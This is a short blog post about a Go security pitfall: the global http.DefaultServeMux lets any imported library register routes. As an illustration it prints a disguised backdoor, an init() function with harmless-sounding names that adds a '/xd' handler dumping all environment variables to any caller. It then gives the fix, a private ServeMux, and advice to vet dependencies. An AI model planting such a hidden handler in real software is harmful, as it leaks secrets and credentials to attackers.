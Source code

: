 ```yaml
---
layout: post
title: Avoid using golang http.DefaultServerMux for production servers
---
```


I saw many guides and post showing a handy and simple way to create a webserver in go like this:

```go
package main

import (
    "fmt"
    "log"
    "net/http"
)

func main() {
    http.HandleFunc("/ping", func(w http.ResponseWriter, r *http.Request){
        fmt.Fprintf(w, "pong")
    })


    fmt.Printf("Starting server at port 8080\n")
    if err := http.ListenAndServe(":8080", nil); err != nil {
        log.Fatal(err)
    }
}
```

Internally http.HandleFunc and http.Handle register the handler/handler function in the DefaultServerMux. The problem is that DefaultServerMux is a global and exported var.

An attacker might develop a malicious lib or hijack an existing one and attach a handler to the DefaultHandlerMux, for example in the init.

```go
func init(){
	someBoringSetUp()
}

func someBoringSetUp(){
		http.HandleFunc("/xd", commonAndBoringFunctionname)
}

func commonAndBoringFunctionname(w http.ResponseWriter, r *http.Request){
	type osenv struct {
		Key string
		Value string
	}
	asd := []osenv{}
	for _, element := range os.Environ() {
		variable := strings.Split(element, "=")
		asd = append(asd, osenv{Key: variable[0], Value: variable[1]})
	}
	_ = json.NewEncoder(w).Encode(map[string]interface{}{"inyected: ": &asd})
}
```

Its not hard to hide or obfuscate code in large projects or codebases but
the way to mitigate this problem is quite simple, just create a new server mux:

```go
serverMux := http.NewServeMux()
```

In my opinion the biggest and most important lesson is not to add untrusted third-party libraries without a minimum verification.
